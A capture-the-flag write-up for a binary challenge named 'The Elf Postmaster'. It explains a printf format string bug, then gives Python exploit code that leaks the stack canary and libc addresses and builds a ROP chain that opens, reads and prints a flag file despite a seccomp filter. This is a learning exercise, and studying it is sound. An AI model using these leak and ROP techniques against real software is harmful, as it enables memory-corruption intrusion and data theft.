 # The Elf Postmaster

A quick look in Ghidras decompiled code for the main function tells us, that we are dealing with a format string vulnerabilty.

The first one:
```C++
    fgets(local_118,0x100,stdin);
    printf("Oh, greetings ");
    printf(local_118);
```

And the second one in a lopp:

```C++
    fgets(local_118,0x100,stdin);
    printf("Okok, I am taking notes, so you said: ");
    printf(local_118);
```

`local_118` is directly under our control, so lets send a lot of %p's to get the infos out (`p.sendline("%p" * 80`)! The interesting values were at position 30, 39, 40 and 41 and the rest could be calculated (we know from the Dockerfile that we are dealing with Ubuntu 18.04).

```python
payload = "%30$p %39$p %40$p %41$p"
p.sendline(payload)
p.recvuntil("Oh, greetings ")
stack, canary, binbase, ret = p.recvline().rstrip().split(" ")

stack    = int(stack, 16)  #some address from the stack
rsp      = stack - 0x128   #address of stackpointer
ret_addr = stack - 0xd8    #address of ret(2libc)
ret      = int(ret, 16)    #ret value
libcbase = ret - 0x21b97;  #libc base calculation for ubuntu 18.04
binbase  = int(binbase , 16) - 0xc00 
canary   = int(canary, 16)
```

The write function, writes the second parameter relative to the leaked address to the stack. 
I get some weird crashes due to the Ubuntu 18.04 16-byte Stack-Alignment-Restriction on memory operations, so I shift the rsp around to get rid of it.

```python
write(-0x10, (libcbase + POP_RSP_OFFSET), 32)      # -0x10 is the location of ret address
write(-0x08, (rsp + 0x40), 48)                     # New StackPointer 16-Byte aligned
```

There was a Seccomp restrction enabled, so we only could use a few syscall and all the fancy shell opening ones were missing. But it's a CTF so we want to get the content of a file. Open and read weren't restricted and we know that the file was locatead at `/home/ctf/flag.txt` (or later chrooted to `/flag.txt`).

The only thing left is open the file, read it and prinf the content. 
Flag captured!

```python
payload = "A" * 0x10 + "/flag.txt\x00" + "A" * 30  
payload += p64(libcbase + RET_OFFSET)                   

# Open File
payload += p64(libcbase + POP_RDI_OFFSET)          
payload += p64(rsp + 0x10) # 1                     
payload += p64(libcbase + POP_RDX_RSI_OFFSET)      
payload += p64(0x00) # 3
payload += p64(0x00) # 2
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + OPEN_OFFSET)   

# Read File
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + POP_RDI_OFFSET)
payload += p64(0x03) # 1
payload += p64(libcbase + POP_RDX_RSI_OFFSET)
payload += p64(0x40) # 3
payload += p64(stack + 0x8) 
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + READ_OFFSET)

# Print Flag
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + POP_RAX_OFFSET)
payload += p64(binbase + 0xb4c)
payload += p64(libcbase + MOV_RDI_RSI_OFFSET)
```
p.sendline(payload)

p.sendline("end of letter")
p.recvuntil("year!")

print "\n"
flag = p.recvuntil("}")
print flag
print "\n"
```
